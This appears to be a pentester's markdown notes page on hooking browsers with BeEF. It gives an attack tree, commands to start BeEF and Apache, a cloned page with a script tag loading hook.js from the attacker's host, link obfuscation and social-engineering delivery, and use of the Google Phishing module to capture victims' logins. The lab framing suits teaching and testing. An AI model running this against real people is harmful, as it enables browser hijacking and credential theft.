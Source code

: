 # Webpage with BeEF hook

## Attack tree

```text
1 Test (AND)
    1.1 Create index.html with basic beef hook in /var/www/html/ (AND)
    1.2 Add basic beef hook script to it (AND)
    1.3 Start apache2 server (AND)
    1.4 Start BeEF (AND)
    1.5 Go to URL with target machine (AND)
    1.6 Watch IP address and info appear in beef (AND)
2 Inject hook in a page (AND)
    2.1 Download site with webscrapbook (AND)
    2.2 Extract downloaded archive and rename for easier use (AND)
    2.3 Open a page (like index.html) (AND)
    2.4 Add BeEF hook in <head> tag (AND)
    2.5 Copy all code to apache2 webroot
3 Manipulate URL (AND)
    3.1 Shorten
    3.2 QR code
    3.3 Obfuscate
4 Deliver link to target
```

## Example using BeEF

### Start BeEF

1. On Kali, run `ifconfig` in a terminal and record the IP address.
2. To run BeEF on Kali:

```text
cd /usr/share/beef-xss
./beef
```

BeEF starts after a short time and displays the interfaces it is running on. For the interface that has 
the IP address of Kali, note the URLs of the Hook and the UI. The Hook is the malicious code you will call from a 
web page; the UI is the administrative console used by the attacker to control the victim's system.
3. On Kali, launch a web browser and navigate to the user interface (UI) URL noted.
4. Log on with the username of beef and the password of beef. There are no online browsers listed on the left side of 
the screen.

### Create the malicious site
5. On Kali, launch a new terminal window (leave BeEF running in its own terminal) and type:

```text
service apache2 start
```

After the Apache web server is started, use the folder list to navigate to the web page we wish to modify.
6. Navigate to Other Locations -> Computer -> var -> www -> html.
7. Right-click index.html and choose Open With Other Application.
8. Choose View All Applications and then highlight Text Editor.
9. Choose Select to open the web page in a text editor.
10. Once the file has opened, press Ctrl+A to highlight all the contents and
then press Del on the keyboard to delete the contents.
11. Type the following text in the file to create a web page:

```text
<html>
<head>
    <!-- Enter hook URL below, but before </head> -->
</head>
<body>
<h1>Welcome to Website</h1>
Welcome to our website. We have a number of services that can help you.
</body>
</html>
```

12. Add the hook

```text
<head>
    <!-- Enter hook URL below, but before </head> -->
    <script src="http://<IP_OF_Kali>:3000/hook.js" type="text/javascript"></script>
</head>
```

13. Save and close

### Trick victim(s) into visiting site

Use social engineering attacks such as sending an email with the link, sending a text message with the link, or 
placing a link on another web page.

14. From a different system in the lab, navigate to `http://<ip_of_kali>` to surf the
website (normally you would be a trickster here).
15. Switch back to Kali.
16. While the user is connected to the company site, go back to the BeEF UI site, and see the client connected on 
the left side of your screen (if not, refresh the page).
17. Click the Commands tab to see a list of commands you can send to the compromised system. In the Module Tree view 
all the different commands and exploits you can send to the visitor.
18. Expand Social Engineering and then select Google Phishing
19. Click the Execute button that appears on the right side of the screen. This causes a Google logon page to appear 
on the victim's system. When the user logs on, the victim's username and password are logged into the BeEF UI
console. If you want the user to be redirected to a specific web page after the user attempts to log on, you could 
put the URL in an XSS hook URL field.
20. Choose the command from the Module Results screen to see the username and password the user entered to log on to 
Google.

## Notes 

Just the basics for testing how it works in the lab. If placing the hook in a big popular website, it is called a 
watering hole attack.

## Tools

* [BeEF in Kali](https://www.kali.org/tools/beef-xss/)
* [WebScrapBook](https://addons.mozilla.org/en-GB/firefox/addon/webscrapbook/)
* [Domain obfuscator](https://splitline.github.io/domain-obfuscator/)